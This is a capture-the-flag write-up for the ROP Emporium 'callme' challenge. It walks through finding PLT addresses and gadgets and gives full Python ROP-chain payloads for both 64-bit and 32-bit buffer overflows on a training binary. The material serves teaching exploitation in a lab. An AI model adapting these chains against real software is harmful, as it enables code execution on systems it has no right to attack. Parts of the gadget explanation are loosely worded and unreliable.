







callme | ROPEmporium [3]
callme
Callme challenge, read the description of the task, and then came here
Task:
- You must call the
callme_one(),callme_two()andcallme_three()functions in that order, each with the arguments0xdeadbeef,0xcafebabe,0xd00df00de.g.callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)to print the flag. For the x86_64 binary double up those values, e.g.callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
Ok we have three functions, and we should call them with arguments, which are given, there are 0xdeadbeef, 0xcafebabe, 0xd00df00d . Functions itself are in external library we should call them one by one. Buffer overflow offset is the same, and checksec security features of binary also the same with prevoius challange (in short, this means that there is no randomization in memory that will prevent us from doing ROPs)
callme PLTs
With these commands, we can identify the PLT addresses of imported functions and use them to execute those functions through a ROP chain.

-
rabin2 -i <binary>i: Shows imported functions or symbols from external libraries.This command displays imports from the binary file. Imports are functions or symbols that the binary references from external libraries, such as
printformallocfrom libc. Knowing the imports can help you understand which external functions the binary relies on. -
rabin2 -R <binary>R: Shows relocation entries, used for adjusting addresses at runtime.This command lists the relocations of the binary. Relocations are used in dynamically linked binaries to adjust addresses when the binary is loaded into memory, ensuring that all external references are correctly mapped. This is particularly useful for understanding how addresses are resolved at runtime, especially in binaries using Position Independent Executables (PIE) and shared libraries.
Or also, command objdump -D ./callme | grep callme gives the same PLT addresses of callme functions

x86-64 (64-bit) Calling Convention
In x86-64, the standard calling convention on Unix-like systems is System V AMD64 ABI
System V AMD64 ABI (Unix/Linux):
- Arguments: First six arguments are passed in registers (in order:
RDI,RSI,RDX,RCX,R10,R8). Additional arguments are passed on the stack. - Return Value: Stored in the RAX register.
It means the first argument 0xdeadbeef we place into RDI , the second argument 0xcafebabe into RSI, and the third argument 0xd00df00d into RDX . It will be called like this
callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)
RDI, RSI, RDX gadgets
We need three gadgets to set up arguments for callme functions, each responsible for placing an argument into the RDI, RSI, and RDX registers.
We begin with pop and search with command rp++ -r2 —unique -f ./callme | grep pop

One gadget(1) for rdi , another gadget (2 and 3) for rsi and rdx simultaneously.

ROP Chain
payload = pop rdi; ret + 0xdeadbeefdeadbeef + pop rsi; pop rdx; ret + 0xcafebabecafebabe + 0xd00df00dd00df00d + callme_one@plt
payload += pop rdi; ret + 0xdeadbeefdeadbeef + pop rsi; pop rdx; ret + 0xcafebabecafebabe + 0xd00df00dd00df00d + callme_two@plt
payload += pop rdi; ret + 0xdeadbeefdeadbeef + pop rsi; pop rdx; ret + 0xcafebabecafebabe + 0xd00df00dd00df00d + callme_three@plt
Payload:
from struct import pack
callme_one = 0x0000000000400720
callme_two = 0x0000000000400740
callme_three = 0x00000000004006f0
pop_rdi_ret = 0x4009a3
pop_rsi_rdx_ret = 0x40093d
word1 = 0xdeadbeefdeadbeef
word2 = 0xcafebabecafebabe
word3 = 0xd00df00dd00df00d
payload = b'A' * 40
payload += pack('<Q', pop_rdi_ret)
payload += pack('<Q', word1)
payload += pack('<Q', pop_rsi_rdx_ret)
payload += pack('<Q', word2)
payload += pack('<Q', word3)
payload += pack('<Q', callme_one)
payload += pack('<Q', pop_rdi_ret)
payload += pack('<Q', word1)
payload += pack('<Q', pop_rsi_rdx_ret)
payload += pack('<Q', word2)
payload += pack('<Q', word3)
payload += pack('<Q', callme_two)
payload += pack('<Q', pop_rdi_ret)
payload += pack('<Q', word1)
payload += pack('<Q', pop_rsi_rdx_ret)
payload += pack('<Q', word2)
payload += pack('<Q', word3)
payload += pack('<Q', callme_three)
# Output the payload
with open("payload", "wb") as f:
f.write(payload)
print("Payload written to 'payload'")
Result:

callme 32-bit
In x86 (32-bit) calling conventions, arguments for functions are passed on the stack, and the specific convention dictates how this is done. Here’s how it typically works in the cdecl convention for a function that takes three arguments.
cdecl Calling Convention in x86 (32-bit)
In cdecl, arguments are passed right-to-left on the stack. The caller is responsible for pushing the arguments to the stack before the function call and for cleaning up the stack afterward.
Example Function Call
Consider a function my_function(arg1, arg2, arg3), which takes three arguments. Here’s how this would look in assembly in the cdecl calling convention:
push arg3 ; Third argument pushed first (right-to-left order)
push arg2 ; Second argument
push arg1 ; First argument
call my_function ; Call the function
add esp, 12 ; Clean up the stack (3 arguments * 4 bytes each = 12 bytes)
In simple term it is like stack layout looks like this:
+--------------------+
| my_function | <-- Calling function
+--------------------+
| Return Address | <-- Points to the address after call function completed
+--------------------+
| arg0 | <-- First argument (pushed last)
+--------------------+
| arg1 | <-- Second argument
+--------------------+
| arg2 | <-- Third argument (pushed first)
+--------------------+
Payload:
from struct import pack
callme_one = 0x080484f0
callme_two = 0x08048550
callme_three = 0x080484e0
word1 = 0xdeadbeef
word2 = 0xcafebabe
word3 = 0xd00df00d
pop_three = 0x80487f9
payload = b'A' * 44
payload += pack('<I', callme_one)
payload += pack('<I', pop_three)
payload += pack('<I', word1)
payload += pack('<I', word2)
payload += pack('<I', word3)
payload += pack('<I', callme_two)
payload += pack('<I', pop_three)
payload += pack('<I', word1)
payload += pack('<I', word2)
payload += pack('<I', word3)
payload += pack('<I', callme_three)
payload += pack('<I', pop_three)
payload += pack('<I', word1)
payload += pack('<I', word2)
payload += pack('<I', word3)
# Output the payload
with open("payload", "wb") as f:
f.write(payload)
print("Payload written to 'payload'")
You may have multiple questions like, What is the pop_three gadget, why it puts values into esi , edi , and ebp ? In case if it putting arguments into registers why it is putting,what is the purpose of them?

Let’s analyze step by step: first, we call the callme function, passing its arguments. According to the stack layout, these arguments are positioned after the return address. Specifically, ARG0 is 0xdeadbeef, ARG1 is 0xcafebabe, and ARG2 is 0xd00df00d. Once these arguments are set, callme is executed. After the function completes, it follows the return address at [+12], which directs it to callme1 at [+28]. (The path which is the crossed)
Here’s the issue: although the EIP (instruction pointer) changes to [+28], the ESP (stack pointer) remains at [+12]. This misalignment means that the function mistakenly interprets 0xcafebabe as the first argument, which is incorrect because we are still on the first argument frame of callme. To correct this, we need to pivot the stack to the arguments for callme1. This is where the pop_three gadget is essential; its primary purpose is to adjust the stack by manipulating ESP. By executing pop [reg] = add esp, 0x8 three times, it effectively advances the stack pointer to the second function’s argument frame, aligning everything correctly.
In summary, the main purpose of the gadget here is stack pivoting, not placing arguments directly into registers. It accomplishes this by adjusting ESP to point to the correct argument frame for callme1.
After calling all three functions correctly we get the flag.
Result:
